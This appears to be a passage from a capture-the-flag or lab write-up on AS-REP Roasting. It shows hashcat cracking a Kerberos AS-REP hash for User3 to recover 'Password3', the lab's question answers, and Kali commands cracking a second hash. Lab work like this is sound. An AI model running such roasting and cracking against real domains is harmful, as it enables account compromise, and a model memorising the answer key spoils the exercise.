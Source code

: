 ```

Dictionary cache hit:
* Filename..: Pass.txt
* Passwords.: 1240
* Bytes.....: 9706
* Keyspace..: 1240

$krb5asrep$23$User3@CONTROLLER.local:2f048aad73b34ba5279b9e63452ff183$364fc49f66919dad2df8258620968b295a09cb03e350c9f629cfd5a8eecb172e304d53bc39d60803bd45d3256a17374136075147c5ae2363866fcc1c43c0233f97fef714e4dc68b01c9be0e63b46bb8b4e5e6351e4e051f189c1937f049e4d4690ca6c05f5a6024b475f9d6b523340923bc6b31509220836cc0a7d424d84247f937fce647a52ee0ff7dd1276cbe32271e83f08a98c0be72b8f7930f0dcb546517a1d08eb011a56a87f69432481411db6519f3c73c3e71ce0252f7d5c670a893a283cca1d839949bd81ae76196981faf4e05862a6e71d982f5b1ab1556ecab520709beabf065ae76922829c34318a56251e0c5b48:Password3
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$User3@CONTROLLER.local:2f048aad73b34b...0c5b48
Time.Started.....: Sat Aug 20 14:35:17 2022 (0 secs)
Time.Estimated...: Sat Aug 20 14:35:17 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (Pass.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   456.9 kH/s (0.93ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1024/1240 (82.58%)
Rejected.........: 0/1024 (0.00%)
Restore.Point....: 0/1240 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> moomoo
Hardware.Mon.#1..: Util: 26%

Started: Sat Aug 20 14:35:16 2022
Stopped: Sat Aug 20 14:35:19 2022

```
What hash type does AS-REP Roasting use?
*Kerberos 5, etype 23, AS-REP*

Which User is vulnerable to AS-REP Roasting?
*User3*


What is the User's Password?
*Password3*

Which Admin is vulnerable to AS-REP Roasting?
*Admin2*

```
┌──(kali㉿kali)-[~/Downloads/learning_kerberos]
└─$ nano hash4.txt
                                                                                           
┌──(kali㉿kali)-[~/Downloads/learning_kerberos]
└─$ hashcat -m 18200 hash4.txt Pass.txt
hashcat (v6.2.5) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-10210U CPU @ 1.60GHz, 1243/2550 MB (512 MB allocatable), 4MCU

```